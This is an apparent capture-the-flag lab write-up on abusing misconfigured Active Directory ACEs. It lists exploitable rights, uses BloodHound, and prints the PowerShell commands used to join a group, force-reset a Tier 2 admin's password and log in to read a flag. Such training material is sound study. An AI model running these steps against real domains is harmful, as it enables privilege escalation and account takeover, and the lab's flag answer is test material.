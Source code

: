 # Permission Delegation

Active Directory can delegate permissions and privileges through a feature called Permission Delegation.

- Exploits are referred to as ACL-based attacks
- AD allows administrators to configure Access Control Entries (ACEs) that populate Discretionary Access Control Lists (DACLs), hence the name ACL-based attacks
- Any AD object can be secured with ACE
- ACEs describe the allowed/denied permissions that any other AD object has against the target object

- if any ACEs are misconfigured, it may be possible for an attacker to exploit them

Example:
- IT Support team are granted ForceChangePassword ACE over Domain Users group, this would be considered insecure
- Misconfiguration would allow them to reset passwords for privileged accounts

# Exploiting ACEs
- Significant amount of ACEs can be misconfigured

- Bloodhound documentation assists in explaining enumerated ACEs and how they can be exploited

https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#

### ForceChangePassword
- Ability to set the user's current password without knowing their current password

### AddMembers
- Ability to add users, groups, or computers to the target group

### GenericAll
- Control over the object
- Ability to change the user's password, register an SPN
- Add AD object to the target group

### Generic Write
- Update any non-protected parameters of our target object
- Update the scriptPath parameter, which would cause a script to execute the next time the user logs on

### Write Owner
- Ability to update the owner of the target object
- Ability to assign ourselves as the owner, allowing us to gain additional permissions over the object

### Write DACL
- Ability to write new ACEs to the target object DACL
- Write ACE that grants our account full control over the target object

### AllExtendedRights
- Perform any action associated with extended AD rights against the target object



In order to exploit these ACEs, we need a method to interact with AD to make these requests:
- AD-RSAT PowerShell
- PowerSploit

# Bloodhound
Use the files provided in the room and upload to Bloodhound

<pre>sudo neo4j console start </pre>

![Alt text](../../Images/Bloodhound.png)

# Privilege Escalation

- justin.barnes is a `MemberOf` domain za.tryhackme.loc and 'CanRDP' to THMWRK1
- Domain is tiered
- Tier 0 > Tier 1 > Tier 2
- Need to compromise the Tier 2 Admins group since this group has administrative privileges on all workstations
- Add justin.barnes as the start position
- Add Tier 2 Admins group as the end position

- justin.barnes is a `MemberOf` `DOMAIN USERS@ZA.TRYHACKME.LOC`
- Group has `GenericWrite` permissions over `IT Support@ZA.TRYHACKME.LOC` group

If a user/group has `GenericWrite` permissions on a group object in Active Directory, they would be able to modify non-security attributes of that group, including adding themselves to the group.

![Alt text](<../../Images/Justin Barnes Membership.png>)

- Administrator has misconfigured the Permission Delegation of the IT Support group by providing the Domain Users group with AddMembers ACE
- Any member of the Domain Users group can add accounts to the IT Support group
- IT Support group has the `ForceChangePassword` ACE for Tier 2 Admin group members

![Alt text](<../../Images/Justin Barnes Membership 2.png>)

## AddMembers
- Add our AD account (justin.barnes) to IT Support group

<pre>PS C:\>Add-ADGroupMember "IT Support" -Members "justin.barnes" </pre>

- Verify that justin.barnes has been added to IT Support group

<pre>PS C:\Users\justin.barnes> Get-ADGroupMember -Identity "IT Support" | select name

name             
----
brenda.black
reece.noble
paula.bailey
barbara.reid
christine.hall
irene.leach
ruth.dale
adrian.boyle
michael.cameron
nicholas.pearson
justin.barnes
max.smith
 </pre>

 ## ForceChangePassword
- justin.barnes is now a member of IT Support group
- Inherit the ForceChangePassword Permission Delegation over Tier 2 Admin group
- Identify the members of this group to select a target

<pre>PS C:\Users\justin.barnes> Get-ADGroupMember -Identity "Tier 2 Admins" | select name

name               
----
t2_lawrence.lewis
t2_leon.francis
t2_henry.harvey
t2_june.russell
t2_kathleen.mills
t2_irene.nash
t2_henry.shaw
t2_alan.riley
t2_jordan.hawkins
t2_ross.bird
t2_robin.wyatt
t2_caroline.dawson
t2_melanie.davies
 </pre>

 - Target account: t2_robin.wyatt
 - Use the Set-ADAccountPassword AD-RSAT cmdlet to force change the password

 <pre>PS C:\Users\justin.barnes> $Password = ConvertTo-SecureString "Password.123" -AsPlainText -Force

PS C:\Users\justin.barnes> Set-ADAccountPassword -Identity "t2_robin.wyatt" -Reset -NewPassword $Password </pre>

- Authenticate to THMWRK1 (10.200.63.248) using account t2_robin.wyatt

<pre>ssh t2_robin.wyatt@10.200.63.248</pre>

<pre>za\t2_robin.wyatt@THMWRK1 C:\Users\t2_robin.wyatt>whoami
za\t2_robin.wyatt</pre>

What is the value of the flag stored on the Desktop of the Administrator user on THMWRK1 (flag1.txt)?
<pre>za\t2_robin.wyatt@THMWRK1 C:\Users\t2_robin.wyatt>cd C:\Users\Administrator\Desktop

za\t2_robin.wyatt@THMWRK1 C:\Users\Administrator\Desktop>more flag1.txt
THM{Permission.Delegation.FTW!}
</pre>